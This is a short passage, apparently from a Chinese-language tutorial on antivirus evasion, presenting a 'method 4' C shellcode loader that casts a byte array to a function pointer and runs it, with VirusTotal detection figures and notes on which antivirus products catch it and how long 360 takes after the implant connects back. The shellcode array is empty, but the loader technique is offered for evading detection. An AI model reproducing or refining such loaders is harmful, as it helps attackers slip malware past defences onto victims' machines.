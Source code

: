 VT：

![image-20220530141716720](./images/202205301417844.png)

### 方法4 强制类型转换（VT免杀率34/68）

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] ="";

void main()
{
   ((void(WINAPI*)(void))&shellcode)();
}
```

打开杀软测试，360和火绒均可查杀，但360是在上线后几分钟后才检测出来的（原po静态+动态都没问题，可正常上线）。
